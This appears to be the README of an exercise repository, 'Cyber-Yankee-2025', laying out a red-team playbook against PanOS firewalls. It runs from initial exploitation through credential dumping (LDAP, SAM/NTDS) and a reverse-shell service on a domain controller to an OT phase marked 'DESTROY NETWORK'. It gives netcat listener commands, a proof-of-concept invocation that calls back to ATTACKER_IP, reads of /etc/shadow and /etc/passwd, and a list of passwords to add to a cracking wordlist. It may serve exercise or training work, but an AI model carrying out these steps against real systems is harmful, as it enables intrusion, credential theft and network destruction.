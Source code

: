 # Cyber-Yankee-2025

## Sassy Panda

[Phase1](Phase1) - #PanOS Exploit

[Phase2](Phase2) - #PanOS Internal Reconnaissance & Enumeration

[Phase3](Phase3) - #PanOS Persistence

[Phase4](Phase4) - #PanOS proxy chains

---

[Phase5](Phase5) - #Discovery Inside Orange Space

[Phase6](Phase6) - #Credential Access (via LDAP, SAM/NTDS)

---

[Phase7](Phase7) - Lateral Movement and Persistence *DAY 3*

[Phase8](Phase8) - `WinDefMon` Reverse Shell Service on DC

[Phase9](Phase9) - OT Network Target Prep (Later Stage) *DAY 4* - DESTROY NETWORK

## Steps

1. initial access - setup initial listener (netcat/metasploit) with your 61574
    run command: `nc -lvnp 61574`
2. setup callback listener 63842
    run command: `nc -lvnp 63842`
3. run python:
    `python Poc.py https://<TARGET_PAL_WEB_INTERFACE_IP> <ATTACKER_IP> <ATTACKER_PORT>` # Random high port chosen in script from above
4. once exploit is through, look at initial listener and wait for callback to catch. once callback catches perform
    run command:
    `whoami` # detect who we are
    `cat /etc/shadow` # grab the users on the machine
    `cat /etc/passwd` # grab what shell permissions every user has
    `uname -a` # detect what machine we are running
5.  Add passwords to rockyou.txt

```
Summer2025
JohnDoe123
Password123!
Football@2023
C0ffeeMorn1ng
Ilov3mydog!
ChocolateCake1
BlueSky_2024
M!nnesota@123
GreenTea4U
Soccer#1Fan
p@ssw0rd!!
M!ch@el123
Winter2023#
B3autifulDay!
1234Qwerty!
H@ppyDay#1
MickeyMouse99
P@ssword2024!
Tiger@12345
!LoveCoding4U
Il0vePizza!
$uperman2024
RedCar$2023
L0veMyPet$
PurpleRain2024
!BrightSun2023
P@rtn3rInLife!
M@rtha12!
FishingTrip#2024
Coffee_@123
B@by_Queen23
NewYork2024!
B1gCats123
Tiger$Lover2023
CodingRocks!23
Weekend_2023
Fr@nkie_Love
123A1B2C3$
Cr@zy2023!
HappyD@ys123
@HomeSweetHome
Flowers_2024!
M@xy88!
CoMput3r$2023
L0veMyLife!
Sunshine!123
D3sert_sand
Smart_Guy2023
Jumpy_Dog$2024
Princess!123
March@2025
Security2025!
m@nny_smith
G@rdenFlowers
B3autiful2024
Lucky_1234
CoffeeTime!24
C0d3r_Life
Windy_Day!2024
SpringFl0wers#
ChocoC@ke2023
G@rden_Party!
N0vember@2024
M@rtin007
Silver@Fox23
BestD@y2024
E@gleEye2023
Amazing_2024!
St@rWars123
Sugar@L0ve
Little_Lamb2024
Super@star23
T1me2W1n
Alp@caFarm2024
Cool_Dude123
Sp@rkle_Snow
Peace!_2023
LoveToCode23
John!N@g@2023
Doggie2024!
St@rLover!12
M@zyRain@23
12J@neDoe#
Beach_@Sun2024
R3liable@Friend
Jumper_1234
CatsAre#cute!
Delicious!Bite
123_f@llSun
Powerful123#
Game_Over2023
TastyTreat#1
Princess_@23
W0rld2024!
SkylineV!ew
HappyFeet123
@HeLLo#123
Go_Tigers2024!
Skylark_!@#23
M0nkeyLove#23
Swimming_@24
Chocolate_@12
Runner_Girl24
F@mily_Tree2024
WineLover123
H@ppyDog#23
Smart@Coder
MyG@rden2024
Coffee!Beans123
B@by1Cats
T3aTime#2024
Gr@ndma!2023
Working@Home
L@ndscape_123
Nature@Beach2024
Morning!Vibes
Winter!2024_
Best#S@lution
Ready4Work2024
Sunny#Day@123
OldH@ppy!T1mes
Rainy_Day_123
EagleFlite@123
Hunter!Fox123
Blue_Waves23
Shin1ngStar!
Trav3l@2023
SpringBreeze2024
NoT1meToStop!
Sunrise@Mom
Breeze_Sunset123
Sunset_#2024
Music_Flowers123
SkyHunter@23
Healthy_Life2024
Br!ghtM0rning
S@fety12345!
SummerD@ys2024
H@ppy!Coding
Beautiful#@rain
B3autiful2023
L0ve_theSky!
Time4Bed@23
M0rning!L@nd
St@rBurst2024
BigH0lidays#
FoodLover2024!
Strong#Heart1
Let'sGo!ToBe
MasterCode!23
D0gLovers123
K!ttenTime2024
PuppyLove_23
Peachy@Life24
Fancy_2024!
BeachTime24
SleepyM0rning!
G0ldenMoon#23
CoolDays@123
!QAZ@WSX1qaz2wsx
```
